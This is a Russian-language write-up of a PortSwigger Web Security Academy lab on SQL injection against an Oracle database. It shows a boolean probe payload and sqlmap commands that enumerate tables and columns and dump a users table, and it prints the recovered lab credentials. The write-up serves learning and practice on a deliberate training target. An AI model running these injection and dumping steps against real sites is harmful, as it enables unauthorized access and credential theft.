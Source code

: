 ```yaml
---
title: "SQL injection attack, listing the database contents on Oracle"
date: 2025-06-06
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle"
classes: wide
---
```


Лаба узвима к **SQL injection**. Для решения нужно получить учетные данные администратора и залогиниться от его имени.

```
https://0a57003c0432926b813a7a8500cf0090.web-security-academy.net/
```

## Solution

Вижу уже знакомый мне фильтр категорий:

```
https://0a57003c0432926b813a7a8500cf0090.web-security-academy.net/filter?category=Gifts
```

В параметре `GET`-запроса передается имя категории. Проверю, уязвим ли он для `SQLi`:

```
Gifts' and 1=0-- -ok
```

<details>
<summary>Пояснение</summary>
  
<strong>'</strong> закрывает текущую строку SQL, <strong>and 1=0</strong> делает условие заведомо ложным, <strong>-- -</strong> — комментарий, обрезает остальной SQL-код после вставки.

</details>  

Угадал. Мне выдало пустую страницу:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_attack_listing_the_database_contents_on_Oracle/1.png){: height="200" .align-center}


Для решения буду использовать инструмент `sqlmap`. С помощью него получу список всех таблиц из БД:

```bash
sqlmap -u "https://0a57003c0432926b813a7a8500cf0090.web-security-academy.net/filter?category=Gifts" -p category --batch --tables 
```

<details>
<summary>Пояснение</summary> 
  
<strong>sqlmap</strong> — это инструмент для автоматического обнаружения и эксплуатации уязвимостей `SQL`-инъекций. Он позволяет проверять параметры URL, формы, cookies и извлекать данные из базы данных, не зная заранее её структуру.

</details> 

```
Database: PETER
[2 tables]
+--------------------------------+
| PRODUCTS                       |
| USERS_KSJEGE                   |
+--------------------------------+
```


Полученная БД выглядит интересно. Попробую вытащить из нее данные:

```bash
sqlmap -u "https://0a570
03c0432926b813a7a8500cf0090.web-security-academy.net/filter?category=Gifts" -p category --batch -D PETER --columns
```

Вывод:

```bash
Database: PETER
Table: PRODUCTS
[8 columns]
+-------------+----------+
| Column      | Type     |
+-------------+----------+
| DESCRIPTION | VARCHAR2 |
| NAME        | VARCHAR2 |
| CATEGORY    | VARCHAR2 |
| ID          | NUMBER   |
| IMAGE       | VARCHAR2 |
| PRICE       | NUMBER   |
| RATING      | NUMBER   |
| RELEASED    | NUMBER   |
+-------------+----------+

Database: PETER
Table: USERS_KSJEGE
[3 columns]
+-----------------+----------+
| Column          | Type     |
+-----------------+----------+
| EMAIL           | VARCHAR2 |
| PASSWORD_ZOCUVS | VARCHAR2 |
| USERNAME_YYRPEJ | VARCHAR2 |
+-----------------+----------+
```


Теперь я хочу сдампить таблицу `USERS_KSJEGE`:

```bash
sqlmap -u "https://0a57003c0432926b813a7a8500cf0090.web-security-academy.net/filter?category=Gifts" -p category --batch -D PETER -T USERS_KSJEGE --dump
```

<details>
<summary>Пояснение</summary> 
  
Сдампить (от англ. <strong>dump</strong>) в контексте <strong>SQLi</strong> — значит выгрузить содержимое базы данных: таблицы, строки, пароли, логины и т.д.

</details> 


Результат:

```bash
Database: PETER
Table: USERS_KSJEGE
[3 entries]
+-------+----------------------+-----------------+
| EMAIL | PASSWORD_ZOCUVS      | USERNAME_YYRPEJ |
+-------+----------------------+-----------------+
| NULL  | tpidtpk8p30yf31z390j | administrator   |
| NULL  | tubu1f93ucymkzey93mc | wiener          |
| NULL  | 8ew1awl6nyizysjnernx | carlos          |
+-------+----------------------+-----------------+
```


Использую креды для входа:


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_attack_listing_the_database_contents_on_Oracle/2.png){: height="200" .align-center}


Лаба пройдена:3 ☕ 